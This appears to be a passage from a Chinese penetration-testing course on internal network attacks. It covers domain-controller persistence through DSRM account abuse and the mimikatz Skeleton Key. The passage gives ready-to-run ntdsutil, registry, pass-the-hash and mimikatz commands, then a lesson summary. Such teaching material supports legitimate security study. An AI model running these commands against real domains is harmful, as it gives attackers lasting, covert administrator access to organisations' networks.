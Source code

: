 * **DSRM**

DSRM，目录服务恢复模式是 Windows 域控制器的安全模块启动项，你可以通过它为域控制器设置一个本地管理员账户，然后同步其他账号的密码为 DSRM 密码，再修改注册表的 DrmAdminLogonBehavior 为 2，即允许使用 DSRM 管理员账号登录域控制器：

```java
＃ 同步DSRM密码
ntdsutil
set DSRM password
SYNC FROM DOMAIN ACCOUNT username
Q
Q
＃修改注册表配置：
reg add " HKLM\System\CurrentControlSet\Control\Lsa" /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
```

之后就可以用 mimikatz 去连接：

```java
sekurlsa::pth /domain:computername /user:Administrator /ntlm:{密码hash}
```

* **Skeleton Key**

Mimikatz 支持安装万能密码，通过以下命令即可将"mimikatz"作为万能密码去连接域控，哪怕域控密码被修改也可使用。

```java
privilege::debug 
misc::skeleton
```

除此之外，还可以利用 mimikatz 的 mimilib.dll 去记录重启后登录的密码，还有用户 SID History 属性等方式，都可以利用 Mimikatz 工具来实现，它在权限持久化方面提供了不少实用的功能。

### 总结

本课内容较长一些，主要是内网渗透涉及的知识点太多太杂了，限于篇幅，我也只能介绍一些最主要最常用的技术，按内网渗透流程来分顺序讲解：内网信息收集、通信隧道建设、权限提升、横向移动、权限维持。

更多内网渗透技巧，推荐你去看《内网安全攻防：渗透测试实战指南》这本书，其中还有Cobalt Strike这款在内网渗透中常被使用到的渗透测试框架的详细介绍，它是收费版的，另有社区版叫 armitage，你可以花点时间去研究下 Cobalt Strike 的使用，相信对提高内网渗透实战能力会有很大的帮助。

*** ** * ** ***

[课程评价入口，挑选 5 名小伙伴赠送小礼品～](https://wj.qq.com/s2/8059116/3881/)
